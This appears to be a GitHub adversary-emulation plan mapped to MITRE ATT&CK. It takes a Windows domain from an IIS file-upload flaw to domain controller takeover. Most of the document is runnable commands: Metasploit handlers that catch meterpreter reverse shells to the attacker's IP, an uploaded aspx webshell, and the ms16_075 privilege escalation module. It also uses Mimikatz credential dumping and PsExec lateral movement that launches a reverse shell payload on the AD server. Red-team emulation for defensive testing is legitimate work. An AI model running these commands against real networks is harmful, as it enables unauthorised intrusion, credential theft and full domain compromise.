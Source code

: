 # Scenario 1

## I. Preface
This scenario begins when the attacker successfully exploits a vulnerable upload file on an IIS webserver and executes a malicious payload to gain a foothold on the system. Following initial compromise, the attacker expands access to other hosts through privilege escalation, credential access, and lateral movement with the goal of compromising the Active Directory server, which means the whole domain.

This emulation plan contains several placeholder values that are meant to be replaced with values specific to the target environment against which this plan is to be run.

|||
|-|-|
|`<user_admin>`| Username of local admin account |
|`<pass_admin>`| Username of local admin account |
|`<domain>`| Name of the domain |
|`<ip_attacker>`| IP of attacker's computer |
|`<ip_iis`| IP of IIS Server |
|`<name_ad>`| Name of AD Server |


## II. Contents

* [Step 0 - Setup](#step0)
* [Step 1 - Initial Access](#step1)
* [Step 2 - Privilege Escalation](#step2)
* [Step 3 - Credentials Dumping](#step3)
* [Step 4 - Domain Discovery](#step4)
* [Step 5 - Lateral Movement](#step5)

---

### Pre-requisites

Prior to beginning the following emulation Scenario, ensure you have the proper infrastructure requirements and configuration in place as stated in the [Scenario 1 Infrastructure](./Infrastructure.md) documentation.

---

### Step 0 - Setup <a name="step0"></a>

#### 0 - Start C2 Server
On the `Attack Platform`:

1. `ctrl - alt - T` to open `Terminal 1`

2. Start listening on port `4444`
```
msfconsole -q -x 'use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set lhost <ip_attacker>;set lport 4444;run'
```

---

### Step 1 - Initial Access <a name="step1"></a>

The scenario begins when attacker successfully exploit File upload vulnerability ([T1190](https://attack.mitre.org/techniques/T1190/)) and upload a reverse webshell ([T1505.003](https://attack.mitre.org/techniques/T1505/003/)) `session.aspx` to the target's webserver. <br>
After opening the webshell, `Attack Platform` receives a reverse shell connection from `IIS server` ([T1059.003](https://attack.mitre.org/techniques/T1059/003/))  using Transmission Control Protocol (TCP) ([T1071.001](https://attack.mitre.org/techniques/T1071/001/)).

#### 1.A - Upload reverse shell
On the `Attack Platform`:

1. Open `<ip_iis>` on a web browser

2. Click `Browse...` and select `session.aspx` for uploading

3. Click `Send`

#### 1.B - Execute reverse shell

On the `Attack Platform`:

1. Open `<ip_iis>/session.aspx` on web browser

2. Now on `Terminal 1` there should be a meterpreter session

---

### Step 2  - Privilege Escalation <a name="step2"></a>

The attacker exploit `IIS server` using `Windows Net-NTLMv2 Reflection DCOM/RPC (Juicy)` vunerable to get `System` privilege ([T1068](https://attack.mitre.org/techniques/T1068/))

#### 2 - Obtain System shell
On the `Terminal 1` of `Attack Platform`:

1. Run these command on the meterpreter session obtained from the previous step
```
background
use exploit/windows/local/ms16_075_reflection_juicy
set TARGET 0
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set SESSION 1
exploit

```

---

### Step 3 - Credentials Dumping <a name="step3"></a>

With a `System` shell in hand, attacker starts to collect credentials cached in memory using `Mimikatz` ([T1003.001](https://attack.mitre.org/techniques/T1003/001/))

#### 3.A - Load Mimikatz

On the `Terminal 1` of `Attack Platform`:

1.  Load mimikatz to memory
```
load kiwi
```

#### 3.B - Dump credentials

On the `Terminal 1` of `Attack Platform`:

1.  Dump all types of credentials including `msv`, `wdigest`, `kerberos`. Note that in this scenario
we focus on `wdigest` credentials
```
creds_all
```

2.  Collect `<user_admin>`, `<pass_admin>` and `<domain>` 

---

### Step 4 - Domain Discovery <a name="step4"></a>

The attacker use `nslookup` on `<domain>` to get the domain controller's name `<name_ad>` ([T1018](https://attack.mitre.org/techniques/T1018/))

#### 4 - Find domain controller's name

On the `Terminal 1` of `Attack Platform`:

1.  Switch from meterpreter session to cmd shell
```
shell
```

2.  Run `nslookup` command
```
nslookup <domain>
```

3.  Obtain the server's name on the first line

4.  Return to meterpreter session
```
exit
```

---

### Step 5 - Lateral Movement <a name="step5"></a>

The attacker now has `<name_ad>`, `<user_admin>` and `<pass_admin>`. They now can remote execute a reverse shell on `AD server` using uploaded `PsExec` ([T1569.002](https://attack.mitre.org/techniques/T1569/002/) / [T1105](https://attack.mitre.org/techniques/T1105/) / [T1570](https://attack.mitre.org/techniques/T1570/)) with above credentials.

#### 5.A - Tools transfer

On the `Terminal 1` of `Attack Platform`:

1.  Upload `PsExec.exe` to `C:\Users\<user_admin>\AppData\Local\Temp`
```
upload /tmp/modules/PsExec.exe C:\\Users\\<user_admin>\\AppData\\Local\\Temp\\PsExec.exe
```

2.  Upload `session.exe` to `C:\Users\<user_admin>\AppData\Local\Temp`
```
upload /tmp/modules/session.exe C:\\Users\\<user_admin>\\AppData\\Local\\Temp\\session.exe
```

#### 5.B - Listen for another session

On the `Attack Platform`:

1. `ctrl - alt - T` to open `Terminal 2`

2. Start listening on port `4445`
```
msfconsole -q -x 'use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set lhost <ip_attacker>;set lport 4445;run'
```

#### 5.C - Remote Execute

On the `Terminal 1` of `Attack Platform`:

1.  Move to the tools's location
```
shell
cd C:\Users\<user_admin>\AppData\Local\Temp
```

2.  Run `PsExec.exe` to execute `session.exe` on `AD Server`
```
psexec.exe \\<name_ad> -i -h -u <user_admin> -p <pass_admin> -accepteula -d -c session.exe
```

3.  Now `Terminal 2` should receive a connection back from `AD Server` with local admin privilege

---

